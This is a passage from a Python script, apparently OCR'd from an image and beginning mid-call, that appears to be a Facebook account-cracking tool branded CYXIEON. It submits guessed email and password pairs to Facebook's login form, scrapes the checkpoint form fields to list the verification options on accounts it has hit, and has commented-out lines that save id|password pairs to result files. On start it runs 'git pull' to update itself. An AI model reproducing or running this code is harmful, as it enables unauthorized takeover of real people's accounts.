 		'email':idf,
	'pass':pw,
'login':'submit'
		},headers=head, allow_redirects=True).text,'html.parser')
		jo = kontol.find(
		'form'
		)
		data = {}
		lion = [
		'nh',
	'jazoest',
'fb_dtsg',
	'submit[Continue]',
		'checkpoint_data'
		]
		for anj in jo('input'):
			if anj.get('name') in lion:
				data.update({anj.get('name'):anj.get('value')})
		kent = sop(ses.post('https://'+url+str(jo['action']), data=data, headers=head).text,'html.parser')
		opsi = kent.find_all('option')
		if len(opsi)==0:
			tree = Tree("")
			tree.add(f"{hijo}Tapyes / A2f ( cek di mbasic ){puti}")
			prints(tree)
			#open('CYXIEON-CP/'+'CYXIEON-CP.txt','a').write(idf+'|'+pw+'|'+'\n')
			#cp+=1
		else:
			for opsii in opsi:
				print('\r%s---> %s%s'%(kk,opsii.text,x))
	except Exception as c:
		tree = Tree("")
		tree.add(f"{hijo}{idf}{puti}").add(f"{hijo}{pw}{puti}")
		tree.add(f"{mer}spam ip tidak dapat cek ops{puti}i")
		prints(tree)
		#open('CYXIEON-CP/'+'CYXIEON-CP.txt','a').write(idf+'|'+pw+'|'+'\n')
		#cp+=1
		
#----------[ SYSTEM-CONTROL ]----------#	
if __name__=='__main__':
	try:os.system('git pull')
	except:pass
	try:os.mkdir('CYXIEON-OK')
	except:pass
	try:os.mkdir('CYXIEON-CP')
	except:pass
	menu()
	
	
#>>>>> THANKS TO <<<<<#

#    *--> BASARI ID
#    *--> ALVINO ADIJAYA
#    *--> AOREC-XD

#>>>>> THANKS TO <<<<<#
